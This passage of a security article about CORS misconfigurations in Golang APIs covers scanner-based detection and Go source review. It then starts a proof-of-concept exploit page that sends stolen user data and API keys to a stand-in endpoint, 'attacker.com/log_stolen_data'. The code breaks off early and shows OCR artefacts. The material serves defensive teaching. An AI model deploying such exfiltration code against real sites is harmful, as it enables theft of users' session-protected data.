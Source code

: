 - **Web Vulnerability Scanners (Burp Suite Pro, OWASP ZAP):** Configure these tools to proxy browser traffic. They can passively identify CORS headers and actively scan for common misconfigurations by sending modified requests. Burp Suite's Collaborator feature is particularly useful for confirming if the server interacts with arbitrary domains specified in the `Origin` header.
    
- **Specialized CORS Scanners:** Tools specifically designed for CORS testing, such as CORSER (a Golang CLI tool) or CORScanner, can perform more advanced checks and automate the detection of various misconfiguration patterns.

**4. Source Code Review (Golang Specific):**

- **Review Middleware Configuration:** Examine the setup of CORS middleware (e.g., `gin-contrib/cors`, `rs/cors`, `jub0bs/cors`). Check the values set for `AllowOrigins`, `AllowAllOrigins`, `AllowCredentials`, `AllowMethods`, `AllowHeaders`, and any custom origin validation functions (`AllowOriginFunc`).

- **Inspect Custom `net/http` Handlers:** Look for manual implementations of CORS logic within `http.HandlerFunc` or similar constructs. Check for hardcoded , unvalidated reflection of the `Origin` header, incorrect preflight handling, and insecure credential management.
    
- **Search for Common Mistakes:** Look for patterns like reflecting `r.Header.Get("Origin")` directly into `w.Header().Set("Access-Control-Allow-Origin",...)` without validation.

Effective detection requires simulating an attacker's perspective. It is insufficient to merely verify that the legitimate frontend application functions correctly; testing must involve sending requests with manipulated `Origin` headers to probe the boundaries of the server's CORS policy. While automated tools can quickly identify common misconfigurations like the wildcard origin, manual testing with tools like Burp Suite Repeater or `curl` is often necessary to uncover more nuanced logical flaws in origin validation or preflight handling.**7** Integrating CORS checks into both development workflows (e.g., linters, basic automated tests) and dedicated security testing phases (e.g., penetration testing) provides the most comprehensive coverage.

## **Proof of Concept (PoC)**

This Proof of Concept demonstrates how a misconfigured CORS policy in a Golang backend can be exploited to steal sensitive user data.

**Scenario:**

- A vulnerable Golang API is running at `https://vulnerable-api.com`.
- The API endpoint `/user/data` returns sensitive user information (e.g., email, API key) and requires users to be authenticated via session cookies.
- The API has a CORS misconfiguration: it reflects any value from the request's `Origin` header into the `Access-Control-Allow-Origin` response header and also sets `Access-Control-Allow-Credentials: true`.

**Attacker's Setup:**

- The attacker controls the domain `https://attacker.com`.
- The attacker hosts the following HTML page at `https://attacker.com/exploit.html`.
- The attacker sets up a logging endpoint (e.g., `https://attacker.com/log_stolen_data`) to receive the exfiltrated data.

**`exploit.html` Code:**

```HTML

`<!DOCTYPE **html**>
<html>
<head>
    <title>CORS Exploit PoC</title>
</head>
<body>
    <h1>Loading... Please wait.</h1>
    <script>
        console.log("Attempting CORS exploit...");

        var victimApiUrl = "https://vulnerable-api.com/user/data"; // The vulnerable API endpoint
        var attackerLogUrl = "https://attacker.com/log_stolen_data"; // Attacker's server endpoint
```
